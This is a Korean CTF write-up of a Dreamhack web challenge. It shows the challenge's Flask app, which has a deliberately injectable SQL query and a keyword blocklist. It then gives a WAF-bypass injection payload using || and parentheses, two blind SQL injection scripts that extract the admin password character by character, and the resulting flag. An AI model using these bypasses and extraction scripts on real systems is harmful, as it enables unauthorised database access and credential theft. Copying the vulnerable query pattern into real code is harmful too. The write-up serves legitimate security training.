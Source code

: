 ```yaml
---
title: (25) Dreamhack sql injection bypass WAF Advanced 문제 풀이
date: 2024-01-31 +09:00
categories:
  - 웹해킹
tags:
  - [웹해킹, 드림핵]
---
```

{% raw %}
## 문제 풀이
![](https://kyuyeop.github.io/assets/img/post/25/1.png)
전에도 본적 있는 템플릿의 사이트 입니다.
```python
import os
from flask import Flask, request
from flask_mysqldb import MySQL

app = Flask(__name__)
app.config['MYSQL_HOST'] = os.environ.get('MYSQL_HOST', 'localhost')
app.config['MYSQL_USER'] = os.environ.get('MYSQL_USER', 'user')
app.config['MYSQL_PASSWORD'] = os.environ.get('MYSQL_PASSWORD', 'pass')
app.config['MYSQL_DB'] = os.environ.get('MYSQL_DB', 'users')
mysql = MySQL(app)

template ='''
<pre style="font-size:200%">SELECT * FROM user WHERE uid='{uid}';</pre><hr/>
<pre>{result}</pre><hr/>
<form>
    <input tyupe='text' name='uid' placeholder='uid'>
    <input type='submit' value='submit'>
</form>
'''

keywords = ['union', 'select', 'from', 'and', 'or', 'admin', ' ', '*', '/', 
            '\n', '\r', '\t', '\x0b', '\x0c', '-', '+']
def check_WAF(data):
    for keyword in keywords:
        if keyword in data.lower():
            return True

    return False


@app.route('/', methods=['POST', 'GET'])
def index():
    uid = request.args.get('uid')
    if uid:
        if check_WAF(uid):
            return 'your request has been blocked by WAF.'
        cur = mysql.connection.cursor()
        cur.execute(f"SELECT * FROM user WHERE uid='{uid}';")
        result = cur.fetchone()
        if result:
            return template.format(uid=uid, result=result[1])
        else:
            return template.format(uid=uid, result='')

    else:
        return template


if __name__ == '__main__':
    app.run(host='0.0.0.0')
```
코드를 보면 sqli 필터링을 하고 있습니다. 소문자로 바꾸고 필터링하는 걸 보니 우회해서 `union`을 쓰고 하는것도 어려워 보이고요.  
  
이번에 사용할 방법은 `like` 연산자 입니다.
### LIKE 연산자
LIKE연산자는 `a LIKE b` 형태로 작성해서 b형태와 같은 요소를 찾아줍니다.  
b에는 와일드 카드가 사용가능합니다. 와일드카드 중에는 `%` 와 `_`가 있습니다. 더 많은 와일드카드는 [여기](https://www.w3schools.com/sql/sql_wildcards.asp)서 확인하세요.  
`%`는 모든 문자(개수 제한 x)에 해당하며, `_`은 임의의 한 글자에 해당합니다.  
예를 들자면
```sql
SELECT * FROM user WHERE uid LIKE 'a%';
```
는 uid가 a로 시작하는 유저들을 뱉어주고,
```sql
SELECT * FROM user WHERE uid LIKE 'a_min';
```
같은 경우 `a∎min`인 유저들을 뱉어주죠.  
<br>
  
실제로 우회가 되는지 확인해봅시다.  
  
그냥 `admin`을 입력하면
![](https://kyuyeop.github.io/assets/img/post/25/2.png)
이렇게 필터링이 걸리게 됩니다.  
  
하지만 위에서 알아본 형태를 이용하게 된다면 어떨까요?  
실행할 sqli문은 이겁니다.
```
'||(uid)like('admi_')#
```
필터링을 피하기 위해 `or` 대신에 `||`을 사용했고, 공백도 `/**/`로 우회가 불가능하니 괄호로 처리했습니다. 혹시나 다른 유저가 검색될 수 있으니, 최대한 많은 조건을 줬습니다.
![](https://kyuyeop.github.io/assets/img/post/25/3.png)
이렇게 `admin`이 잘 나오네요.  
  
하지만 여전히 문제가 있습니다. 이 문제는 `admin`계정의 비밀번호가 flag인데 `union`을 막아버렸다는 겁니다. 따라서 blind sql을 해야할 듯 합니다.  
  
그럼 길이 부터 구해보겠습니다.
```python
import requests

host = 'http://host3.dreamhack.games:22353'

i = 1
while 'admin' not in requests.get(host,{'uid':f"'||(uid)like('admi_')&&length(upw)={i}#"}).text:
    i += 1
print(i)
```
`upw`를 `length`에 넣고 while문을 돌리면서 얻었습니다. 구한 길이는 `44`입니다.  
  
길이도 알았겠다, 이제 본격적으로 글자 맞추기를 해야겠죠?
```python
import requests

host = 'http://host3.dreamhack.games:22353'

for i in range(1,45):
    for j in range(0x20, 0x7f):
        if 'admin' in requests.get(host,{'uid':f"'||(uid)like('admi_')&&ascii(substr(upw,{i},1))={j}#"}).text:
            print(chr(j), end='')
            break
```
`44`글자 전부에 대해서 `0x20~0x7f` 사이의 모든 글자를 하나씩 넣어보도록 코드를 만들었습니다.  
`0x00~0x19`까지는 적을 수 없는 문자이고, `0x7f`는 `del` 이기 때문에 1글자인 범위만 가져왔습니다.  
참고로 sqli에서 ascii로 돌려서 비교하는 이유는 sql이 대소문자를 구분 안해주기 때문입니다.  
  
이렇게 돌려서 나온 결과를 확인해보면
```
DH{d3def39496c4153942f3f7d5451a4b98c6db1664}
```
이렇게 flag를 얻을 수 있습니다.
{% endraw %}
